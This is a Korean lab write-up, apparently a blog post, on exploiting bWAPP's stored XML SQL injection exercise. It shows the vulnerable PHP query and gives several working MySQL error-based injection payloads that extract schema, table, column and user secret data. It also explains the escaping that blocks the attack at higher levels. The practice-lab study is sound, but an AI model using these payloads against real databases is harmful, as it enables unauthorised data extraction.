 ```yaml
---
layout: single
title: (bWAPP)SQL Injection - Stored (XML)
categories: bwapp
tag: [sql injection, sql, injection, bwapp, bee box, GET, OWASP TOP 10, OWASP]
toc: true
author_profile: false
---
```


# 검증 로직
> Low Level 에서는 보안 대책이 적용되어 있지 않다.

## Level - Low

![그림 1-1](/assets/image/bwapp/injection/stored-xml-archive/image.png)
- 해당 Any bugs? 버튼을 클릭해도 아무런 변화가 일어나지 않는다.

![그림 1-2](/assets/image/bwapp/injection/stored-xml-archive/image2.png)
- Burp Suite 를 통해 요청값과 응답값 패킷을 잡아 확해보면
- POST 형식의 XML 데이터를 보내는 걸 알 수 있다.
- Content-type: 부분을 보면 text/xml 인 걸 알 수 있다.

![그림 1-3](/assets/image/bwapp/injection/stored-xml-archive/image3.png)
- login 태그 내에 ‘ 싱글 쿼터를 보내면 DBMS Error을 반환한다.

```php
$sql = "UPDATE users SET secret = '" . $secret . "' WHERE login = '" . $login . "'"
```

- 해당 기능에서 사용되는 SQL 구문은 위와 같다.
- DBMS Error 가 존재하니 Error-Based 공격이 가능하다.

```sql
bee'+(SELECT 1 FROM (SELECT COUNT(*),concat((SELECT schema_name FROM information_schema.schemata LIMIT 1,1), FLOOR(rand(0)*2))a FROM information_schema.schemata GROUP BY a LIMIT 0,1)b)+'
```

![그림 1-4](/assets/image/bwapp/injection/stored-xml-archive/image4.png)
- 위 코드를 주입하면 Error의 내용으로 DB를 출력하고 있다.
- 이와 같은 방식으로 테이블, 컬럼, 데이터등을 추출할 수 있다.

> 해당 쿼리는 login 태그 혹은 secret태그등 둘 다 가능하다. db 질의시 문법을 잘못 주어 에러를 발생시켜 해당 에러의 내용에서 공격자가 원하는 값을 추출하는 방법이기 떄문이다.

```sql
bee'+(SELECT 1 FROM (SELECT COUNT(*),concat((SELECT TABLE_NAME FROM information_schema.TABLES WHERE table_schema='bWAPP' LIMIT 3,1), FLOOR(rand(0)*2))a FROM information_schema.TABLES GROUP BY a LIMIT 0,1)b)+'
```

```sql
bee'+(SELECT 1 FROM (SELECT COUNT(*),concat((SELECT column_name FROM information_schema.COLUMNS WHERE TABLE_SCHEMA='bWAPP' AND TABLE_NAME='users' LIMIT 0,1), FLOOR(rand(0)*2))a FROM information_schema.COLUMNS GROUP BY a LIMIT 0,1)b)+'
```

```sql
bee'+(SELECT 1 FROM(SELECT COUNT(*),concat((SELECT CONCAT_WS(0x3a,secret,id) FROM bWAPP.users LIMIT 1,1),FLOOR(rand(0)*2))x FROM information_schema.TABLES GROUP BY x)a)+'
```

![그림 1-5](/assets/image/bwapp/injection/stored-xml-archive/image5.png)
- 성공적으로 데이터를 추출했다.
- 하지만 이 때 해당 출력 구간에서 특정 문자열을 넘어가면 error가 발생되지 않는 문제가 생겨
- concat 를 사용하더라도 1개 혹은2개씩 데이터를 조회해야 한다.

## Medium & High

```php
function sqli_check_1($data)
{
    return addslashes($data)
}

function sqli_check_2($data)
{
    return mysql_real_escape_string($data);
}
```

1. Medium Level 에서는 addslahes() 함수를 사용하여 ‘(싱글쿼터 )를 입력하게되면 \ 를 앞에 붙여 ‘(싱글쿼터) 사용을 막고 있다. 해당 search 구문인 ‘%%’ 로 이루어져 있어 공격이 성립되지 않는다.
2. High Level 에서는 mysql_real_escape_string() 함수를 사용하여 메타문자를 방지하고 있다.
3. 해당 문제에서 Medium 과 High Level은 공격이 성립되지 않는다.
